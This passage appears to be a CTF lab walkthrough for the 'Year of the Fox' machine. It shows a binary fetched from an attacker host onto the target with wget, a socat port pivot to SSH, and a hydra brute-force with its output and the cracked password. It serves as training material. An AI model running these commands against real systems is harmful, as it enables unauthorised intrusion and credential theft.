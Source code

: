 We can use `socat` to open another port and redirect the traffic to port 22 on localhost. `socat` is not available on the target machine, so let's download its binary from our machine.

First start a server where the binary is located.

On my machine:
~~~
$ which socat
/usr/bin/socat
$ cd /usr/bin
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Now download it on the target machine:

~~~
$ cd /tmp
$ wget http://<YOUR IP>/socat
$ chmod +x socat
~~~

Now we can run it and open a port (I used port 2222) and redirect the traffic to port 22 on localhost:

~~~
www-data@year-of-the-fox:/tmp$ ./socat TCP-LISTEN:2222,fork TCP:127.0.0.1:22
~~~

Then I confirmed that it works using nmap:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Fox]
└─$ nmap $IP -p2222
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-14 07:15 EST
Nmap scan report for 10.10.64.137
Host is up (0.17s latency).

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1       <------------
~~~

### Brute-forcing SSH

Now that we have an opne ssh port, we can brute-force the password for user `fox`. I used `hydra` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Fox]
└─$ hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://$IP:2222
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-14 07:16:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.64.137:2222/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344222 to do in 1350:41h, 16 active
[STATUS] 165.67 tries/min, 497 tries in 00:03h, 14343902 to do in 1443:03h, 16 active
[2222][ssh] host: 10.10.64.137   login: fox   password: ashlee
1 of 1 target successfully completed, 1 valid password found
~~~
